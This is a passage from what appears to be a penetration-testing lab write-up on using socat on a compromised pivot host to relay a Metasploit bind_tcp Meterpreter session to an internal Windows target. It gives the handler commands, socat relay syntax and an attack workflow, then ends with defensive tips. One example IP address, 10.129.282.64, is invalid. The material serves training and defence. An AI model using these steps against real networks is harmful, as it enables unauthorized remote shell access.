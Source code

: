     - Listens on the pivot host (10.129.282.64:8080) and forwards all traffic to the Windows target (172.16.5.19:8443).
    - The `fork` option allows handling multiple connections.
- **Step 4: Configure Metasploit Multi/Handler**:
  - Commands:
    ```
    msf6 > use exploit/multi/handler
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
    msf6 exploit(multi/handler) > set RHOST 10.129.282.64
    msf6 exploit(multi/handler) > set LPORT 8080
    msf6 exploit(multi/handler) > run
    ```
    - Starts a bind TCP handler targeting the pivot host (10.129.282.64:8080), where `socat` redirects to the Windows target’s bind shell.
- **Step 5: Establish Meterpreter Session**:
  - The multi/handler connects to 10.129.282.64:8080 (pivot host’s `socat` listener).
  - `socat` redirects the connection to 172.16.5.19:8443 (Windows target’s bind shell).
  - Result: Meterpreter session established (e.g., 10.10.14.18:46259 → 10.129.282.64:8080 → 172.16.5.19:8443).
  - Verification: `meterpreter > getuid` (returns `NT AUTHORITY\victor` on the Windows target).
- **Key Insight**: `socat` enables the attack host to reach the Windows target’s bind shell by relaying traffic through the pivot host, mimicking a direct connection.

**4. Practical Application**:
- **Bind Shell Access**: Use `socat` to connect to a bind shell when the target is only accessible via the pivot host.
- **Network Restrictions**: Effective for internal network targets behind firewalls or NAT, where direct connections to the target are blocked.
- **Example Workflow**:
  - Compromise the Ubuntu pivot host and ensure `socat` is installed.
  - Deploy a bind shell payload on the Windows target, listening on a specific port (e.g., 8443).
  - Configure `socat` on the pivot host to redirect connections from a pivot port (8080) to the target’s bind shell port (8443).
  - Use Metasploit to connect to the pivot host’s `socat` port and establish a Meterpreter session.

**Key Takeaways**:
- **Socat Redirection**: Uses `socat TCP4-LISTEN:<port>,fork TCP4:<target_ip>:<target_port>` to relay traffic from the pivot host to the Windows target’s bind shell.
- **Bind Shell**: A Meterpreter `bind_tcp` payload listens on the target (e.g., 172.16.5.19:8443) for incoming connections.
- **Metasploit Handler**: Configures a `multi/handler` with `bind_tcp` to connect to the pivot host’s `socat` port, reaching the target’s bind shell.
- **Advantages**:
  - Lightweight redirection without SSH or Meterpreter dependencies.
  - Simple setup for accessing bind shells on internal hosts.
- **Workflow**:
  - Generate and execute a bind shell payload on the Windows target.
  - Set up `socat` on the pivot host to redirect to the target’s bind shell port.
  - Connect to the pivot host’s `socat` port with Metasploit to establish a session.

**Security Tips**:
- Monitor pivot hosts for `socat` processes or unexpected listeners (e.g., port 8080).
- Prevent execution of unauthorized binaries (e.g., `backupscript.exe`) on Windows hosts.
- Block inbound connections to non-standard ports (e.g., 8443) on internal hosts.
- Use network segmentation to restrict pivot host access to internal networks.
- Audit traffic for unusual connections from pivot hosts to internal targets.
